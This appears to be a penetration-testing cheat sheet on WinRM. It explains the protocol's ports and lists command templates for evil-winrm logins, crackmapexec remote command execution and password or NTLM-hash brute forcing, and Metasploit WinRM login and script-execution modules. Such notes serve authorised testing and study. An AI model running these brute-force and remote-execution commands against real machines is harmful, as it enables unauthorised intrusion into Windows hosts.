 
[Windows Remote Management](https://msdn.microsoft.com/en-us/library/windows/desktop/aa384426(v=vs.85).aspx) (WinRM) is a Microsoft protocol that **allows remote management of Windows machines** over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.

If WinRM is enabled on the machine, it's trivial to remotely administer the machine from PowerShell. In fact, you can just drop in to a remote PowerShell session on the machine (as if you were using SSH!)

The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports:

-   **5985/tcp (HTTP)**
    

-   **5986/tcp (HTTPS)**
    

If one of these ports is open, WinRM is configured and you can try entering a remote session.

# Evilwirm
```
evil-winrm.rb -u USER -p PASS -i IP
```

# logging in using priv/pub keys

evil-winrm -S (SSL) -k (priv key file) -c (pub key file ) -i IP


# crackmapexec.py

```bash
crackmapexec <protocol> <target(s)> -u username -p password

crackmapexec.py winrm <ip address>  # to determine if the target has PSRemoting enabled.

crackmapexec.py winrm <ip address> -u USER -p PASS -x "sysinfo" # RCE

# Brute force

rackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -p ~/file_containing_passwords

crackmapexec <protocol> <target(s)> -u ~/file_containing_usernames -H ~/file_containing_ntlm_hashes



```

# Metasploit

```ruby
use auxiliary/scanner/winrm/winrm_login # bruteforce

use exploit/windows/winrm/winrm_script_exec # login 

set force_vbs true


```